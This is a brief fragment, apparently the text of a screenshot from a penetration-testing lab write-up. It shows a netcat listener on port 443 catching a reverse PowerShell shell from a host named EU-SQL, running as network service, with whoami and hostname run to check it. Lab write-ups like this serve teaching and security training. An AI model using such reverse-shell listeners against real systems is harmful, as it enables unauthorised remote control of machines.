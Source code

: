 PS C:\Windows\system32> cd c:/ad
PS C:\ad>
PS C:\ad> .\nc.exe -lnvp 443
listening on [any] 443 ...
connect to [172.16.100.66] from (UNKNOWN) [172.16.15.17] 50260
Windows PowerShell running as user EU-SQL$ on EU-SQL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\network service
PS C:\Windows\system32> hostname
eu-sql
```